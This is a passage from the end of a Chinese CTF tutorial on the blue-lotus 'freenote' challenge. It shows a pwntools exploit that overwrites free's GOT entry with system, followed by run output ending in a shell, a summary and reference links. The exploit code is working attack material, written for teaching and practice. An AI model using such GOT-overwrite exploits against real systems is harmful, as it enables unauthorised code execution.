 ```

free_got = 0x602018 

payload2 = p64(notelen) + p64(1) + p64(0x8) + p64(free_got) + "A"*16 + p64(binsh_addr)
payload2 += "A"* (notelen*3-len(payload2))  

edit_note(0, payload2)
edit_note(0, p64(system_sh_addr))   

delete_note(1)  

p.interactive()
```

执行exp的结果如下：

```
$ python exp9.py 
[+] Started program './freenote_x64'
b8a75eb2b57f
0x7fb5b25ea7b8
system_sh_addr: 0x7fb5b2278310
binsh_addr: 0x7fb5b23abfc7
20684b02
0x24b6820
[*] Switching to interactive mode
$ whoami
mzheng
```

# 0x04 总结

------

除了64位的freenote，blue-lotus还弄了一个32位版的freenote给大家练习。这些binary和exp都可以在我的github上下载到：

<https://github.com/zhengmin1989/ROP_STEP_BY_STEP>

另外，下篇我会带来arm上rop的利用，敬请期待。

# 0x05 参考资料

------

1. <http://v0ids3curity.blogspot.com/2013/07/some-gadget-sequence-for-x8664-rop.html>
2. 掘金ctf